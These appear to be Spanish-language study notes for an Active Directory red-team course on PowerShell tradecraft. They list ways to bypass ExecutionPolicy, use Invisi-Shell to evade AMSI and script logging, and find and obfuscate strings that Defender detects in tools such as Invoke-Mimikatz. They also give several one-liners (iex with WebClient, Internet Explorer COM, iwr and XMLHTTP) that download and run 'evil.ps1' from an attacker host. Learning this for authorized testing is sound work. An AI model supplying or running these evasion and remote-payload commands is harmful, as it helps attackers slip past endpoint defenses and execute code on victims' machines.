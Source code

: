 
12-32

- Para enumeracion se usara powershell
- instalado de fabrica en todos los windows
- powershell no es powershell.exe es una dll, **System.Management.Automation.dll**
- ExecutionPolicy, no es una medida de seguridad, se hace para evitar ejecuciones accidentales, maneras de bypassear
```
- powershell -ExecutionPolicy bypass
- powershell -c <cmd>
- powershell -encodedcommand
- $env:PSExecutionPolicyPreference="bypass"
```






### INVISI-SHELL


sirve para evadir AMSI, CLM, SYSTEM-WIDE TRANSCRIPTION,SCRIPT BLOCK LOGGING mediante hooks a dos .NET Assemblies, **System.Management.Automation.dll** y **System.Core.dll**

para salir de la sesion se escribe **exit**



## AMSITrigger

```
AmsiTrigger_x64.exe -i C:\AD\Tools\Invoke-PowerShellTcp_Detected.ps1
```

## DefenderCheck

para identificar que strings en concreto hacen saltar el defender
```
DefenderCheck.exe PowerUp.ps1
```

## Bytetolinenumber.ps1

te dice la linea de codigo en la que se ha detectado algo, en vez de  un offset


## Maneras de ofuscar


1. Remove default comments. 2. Rename the script, function names and variables. 3. Modify the variable names of the Win32 API calls that are detected. 4. Obfuscate PEBytes content → PowerKatz dll using packers. 5. Implement a reverse function for PEBytes to avoid any static signatures. 6. Add a sandbox check to waste dynamic analysis resources. 7. Remove Reflective PE warnings for a clean output. 8. Use obfuscated commands for Invoke-MimiEx execution. 9. Analysis using DefenderCheck.






































# COMANDOS

## Para cargar un script de powershell

```
. C:\AD\Tools\PowerView.ps1
```


## para importar un modulo o un script


```
Import-Module C:\AD\Tools\ADModule- master\ActiveDirectory\ActiveDirectory.psd1
```
## para listar todos los comandos de un modulo

```
All the commands in a module can be listed with: Get-Command -Module <modulename>
```

## para descargar un script y cargarlo en memoria

```
iex (New-Object Net.WebClient).DownloadString('https://webserver/payload.ps1')
```
## otro metodo para descargar y cargar en memoria un script usando iexplorer
```
$ie=New-Object -ComObject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://192.168.230.1/evil.ps1 ');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response
```
## carga y ejecucion en memoria de scripts en powershell a partir de la v3


```
iex (iwr 'http://192.168.230.1/evil.ps1')

```


## una manera más, usando XMLHTTP, una api antigua de microsoft


```
$h=New-Object -ComObject Msxml2.XMLHTTP
$h.open('GET','http://192.168.230.1/evil.ps1',$false)
$h.send()
iex $h.responseText

```



## ejecutar invisi-Shell con privilegios de admin

```
RunWithPathAsAdmin.bat
```

## ejecutar invisi-Shell sin privilegios de admin

```
RunWithRegistryNonAdmin.bat
```



